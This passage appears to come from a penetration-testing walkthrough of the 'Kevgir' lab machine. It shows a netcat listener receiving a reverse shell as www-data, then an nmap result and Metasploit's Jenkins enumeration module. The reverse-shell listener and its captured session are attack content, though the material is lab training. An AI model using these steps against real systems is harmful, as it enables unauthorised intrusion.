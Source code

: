 ``` 
nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.128] 57836
Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
 19:40:29 up 39 min,  0 users,  load average: 0.15, 0.11, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Jenkins

``` 
PORT      STATE SERVICE     VERSION
9000/tcp  open  http        Jetty winstone-2.9
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(winstone-2.9)
|_http-title: Dashboard [Jenkins]
```

{% img center /images/pentest/kevgir/jenkins.jpg 'jenkins' 'jenkins dashboard' %}

Jenkins was a new target for me. Let's first understand what it's used for:

> Jenkins is a self-contained, open source automation server written in Java that can be used to automate all sorts of
> tasks related to building, testing, and delivering or deploying software.

I searched in Metasploit and found the <code>auxiliary/scanner/http/jenkins_enum</code>module:

``` 
msf auxiliary(jenkins_enum) > info

       Name: Jenkins-CI Enumeration
     Module: auxiliary/scanner/http/jenkins_enum
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Jeff McCutchan

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host

Description:
  This module enumerates a remote Jenkins-CI installation in an 
  unauthenticated manner, including host operating system and Jenkins 
  installation details.
```
